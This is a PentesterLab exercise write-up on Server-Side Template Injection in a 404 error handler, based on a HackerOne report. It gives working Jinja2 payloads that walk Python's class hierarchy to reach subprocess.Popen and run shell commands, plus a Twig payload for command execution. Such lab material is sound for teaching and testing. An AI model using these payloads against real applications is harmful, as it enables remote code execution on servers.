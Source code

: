 # Pentesterlab Server  Side Template Injection

> Saikat Karmakar | AUG 27 : 2021

---

## Server Side Template Injection

-	This exercise was inspired by the following Hackerone report: https://hackerone.com/reports/125980. In this exercise, the bug is located in the 404 error management.

This report gives you the foundation to:

    Test {{'7'*7}}
    Get code execution:
```py
{{''.__class__.mro()[1].__subclasses__()}} 
```
Check the report carefully, as you can see that the `__` are hidden due to the processing of the data as Markdown in the initial report.

You may need to change the value 1 to get the list of interesting functions. Once you get it, you will need to find one that will give you code execution. You can use the following payload to get access to <\class 'subprocess.Popen'>:
```py
{{''.__class__.mro()[1].__subclasses__()[X]}}
```
Where X is the integer you need to find.

Finally, you can call this method using:
```py
{{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}}
```
Where:

    X was found previously.
    COMMAND is the command you want to run.

Make sure you read the Python documentation for the popen to make sure you have get the right syntax for the command (or add the right option).


```py
{{''.__class__.mro()[2].__subclasses__()}}
```
- 233 bcz thats the index of the subprocess in the subclass list
```py
{{''.__class__.mro()[2].__subclasses__()[233]("uname -a", shell=True).communicate()[0]}}
```

```py
{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('id')}}
```